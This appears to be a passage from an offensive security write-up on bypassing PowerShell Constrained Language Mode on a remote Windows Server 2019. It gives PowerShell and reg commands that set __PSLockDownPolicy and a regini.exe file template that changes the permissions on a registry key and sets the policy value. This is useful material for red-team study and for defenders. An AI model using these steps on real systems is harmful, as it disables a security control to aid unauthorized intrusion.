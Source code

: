 > Command Executed:
>
> ```powershell
> set __PSLockDownPolicy=8
> setx __PSLockDownPolicy 8
> $Env:__PSLockDownPolicy=8
> $ExecutionContext.SessionState.LanguageMode = "FullLanguage"
> [System.Environment]::SetEnvironmentVariable('__PSLockDownPolicy','8',[System.EnvironmentVariableTarget]::Process)
> # The following commands caused infinite hanging
> reg add 'HKLM\System\CurrentControlSet\Control\Session Manager\Environment' /v __PSLockDownPolicy /t REG_SZ /d 8
> reg delete 'HKLM\System\CurrentControlSet\Control\Session Manager\Environment' /v __PSLockDownPolicy
> ```

<img style="display: block;margin-left: auto;margin-right: auto;" src="assets/2.gif">

**NW:** The remote target is a fully updated Windows Server 2019

What come to the rescue is the old, and maybe almost forgotten MS tool **REGINI** (`regini.exe`). This tool is able to manipulate permissions and values of any registry key within the system, and, unlike his companion `reg.exe`, doesn't suffer by the same "hanging" behaviour when launched in a remote PowerShell session.

However, `regini.exe` accept only a file as input, with a well defined format. As such, the only method to use it is to plant a temporary file on the remote target, and then instruct `regini.exe` to use it. The file template used in this operation will be the following:

```
HKLM\System\CurrentControlSet\Control\Session Manager\Environment [1 5 7]
    __PSLockdownPolicy = REG_SZ 8
```
